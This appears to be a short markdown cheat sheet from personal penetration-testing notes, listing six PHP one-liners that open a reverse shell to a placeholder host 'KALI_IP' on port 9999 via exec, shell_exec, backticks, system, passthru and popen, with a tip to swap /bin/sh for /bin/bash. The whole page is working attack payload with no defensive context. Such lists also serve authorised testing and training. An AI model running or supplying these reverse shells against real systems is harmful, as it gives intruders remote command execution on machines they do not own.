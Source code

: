 ```yaml
---
title: 
description: 
draft: false
tags: 
date: 2024-10-18
---
```



## Command Line

```bash
php -r '$sock=fsockopen("KALI_IP",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

^cba9ae

```bash
php -r '$sock=fsockopen("KALI_IP",9999);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);`/bin/sh -i <&3 >&3 2>&3`;'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);system("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);passthru("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

>[!tip] 
>If there are issues with these try switching out `/bin/sh` with `/bin/bash`


